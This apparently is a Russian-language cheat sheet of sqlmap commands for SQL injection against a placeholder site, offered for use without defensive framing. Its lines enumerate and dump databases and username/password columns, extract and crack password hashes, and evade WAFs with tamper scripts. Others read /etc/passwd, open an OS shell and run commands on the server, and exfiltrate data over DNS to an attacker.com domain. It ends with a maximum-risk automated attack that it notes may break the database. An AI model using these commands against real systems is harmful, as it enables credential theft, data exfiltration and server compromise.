 Определение базы данных:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --dbs

Определение таблиц в базе:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" -D target_db --tables

Определение колонок в таблице:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" -D target_db -T target_table --columns

Извлечение данных из таблицы:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" -D target_db -T target_table -C username,password --dump










GET-параметры
sqlmap -u "http://example.com/index.php?id=1"

POST-параметры
sqlmap -u "http://example.com/login.php" --data="username=admin&password=123"

Cookie-параметры
sqlmap -u "http://example.com/profile.php" --cookie="PHPSESSID=abcd1234"

HTTP-заголовки (User-Agent, Referer, X-Forwarded-For и т. д.)
sqlmap -u "http://example.com/" --headers="User-Agent: evil_payload"

Определение типа инъекции
sqlmap -u "http://example.com/index.php?id=1" --technique=U
Где U – Union-based, можно заменить на B (Boolean-based), T (Time-based) и т. д.

Обход WAF (Web Application Firewall)
sqlmap -u "http://example.com/index.php?id=1" --tamper=space2comment
Можно использовать другие tamper-скрипты, например charencode, randomcase и т. д.

Определение уровня привилегий
sqlmap -u "http://example.com/index.php?id=1" --privileges

Получение учетных данных пользователей базы
sqlmap -u "http://example.com/index.php?id=1" --users

Получение хешей паролей
sqlmap -u "http://example.com/index.php?id=1" --passwords

Попытка дешифровки хешей
sqlmap -u "http://example.com/index.php?id=1" --crack

Обход защиты (если есть WAF)
sqlmap -u "http://example.com/index.php?id=1" --random-agent --tamper=space2comment

Автоматическое определение всех уязвимых параметров
sqlmap -u "http://example.com/index.php?id=1" --forms --crawl=3
Ищет SQL-инъекции во всех найденных формах на сайте

Поиск файлов на сервере
sqlmap -u "http://example.com/index.php?id=1" --file-read="/etc/passwd"

Загрузка шелла на сервер
sqlmap -u "http://example.com/index.php?id=1" --os-shell

Запуск команд на сервере
sqlmap -u "http://example.com/index.php?id=1" --os-cmd="whoami"

Обход защиты через Time-based SQL Injection
sqlmap -u "http://example.com/index.php?id=1" --technique=T --time-sec=5

Атака через DNS (Blind SQL Injection)
sqlmap -u "http://example.com/index.php?id=1" --dns-domain=attacker.com

Запуск мощной автоматической атаки
sqlmap -u "http://example.com/index.php?id=1" --level=5 --risk=3 --batch

--level=5 – увеличивает глубину проверки
--risk=3 – максимальный уровень риска (может сломать базу)
--batch – отключает вопросы (запускает атаку автоматически)
